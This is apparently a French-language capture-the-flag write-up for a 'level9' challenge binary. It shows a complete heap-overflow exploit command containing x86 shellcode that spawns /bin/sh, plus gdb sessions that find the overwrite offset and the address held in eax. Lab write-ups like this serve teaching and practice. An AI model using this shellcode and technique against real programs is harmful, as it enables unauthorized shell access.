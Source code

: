 # Soluce

```
/level9 $(python -c 'print "\x0c\xa0\x04\x08" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "A" * 76 + "\x0c\xa0\04\x08"')
```
## Explication de l'exploit

l offset est egale a 108 car la data est malloc a 6c
ensuite on vois que eax cela overflow a sur eax et qu'il est dereferencer car utiliser comme un pointeur sur fonction
il suffira d'utiliser un shellcode grace a l adresse de eax afin de lancer un shell

etape 1 :

```
(gdb) run Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9
Starting program: /home/user/level9/level9 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9

Program received signal SIGSEGV, Segmentation fault.
0x08048682 in main ()
(gdb) info register
eax            0x41366441	1094083649
ecx            0x3965	14693
edx            0x804a0a2	134520994
ebx            0x804a078	134520952
esp            0xbffff680	0xbffff680
ebp            0xbffff6a8	0xbffff6a8
esi            0x0	0
edi            0x0	0
eip            0x8048682	0x8048682 <main+142>
eflags         0x210283	[ CF SF IF RF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
```
Du coup l'offset est sur Ad6A donc 108

etape 2 :

Trouver l'adresse de EAX
```
......
   0x08048677 <+131>:	call   0x804870e <_ZN1N13setAnnotationEPc>
   0x0804867c <+136>:	mov    0x10(%esp),%eax
   0x08048680 <+140>:	mov    (%eax),%eax
......
End of assembler dump.
(gdb) b *0x0804867c
Breakpoint 1 at 0x804867c
(gdb) run AAAA
Starting program: /home/user/level9/level9 AAAA

Breakpoint 1, 0x0804867c in main ()
(gdb) info register
eax            0x804a00c	134520844
..........
```

- Une fois l'adresse de EAX trouve, on peut ecrire notre payload sur 108 octets :

```
\x0c\xa0\x04\x08" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "A" * 76 + "\x0c\xa0\04\x08"
```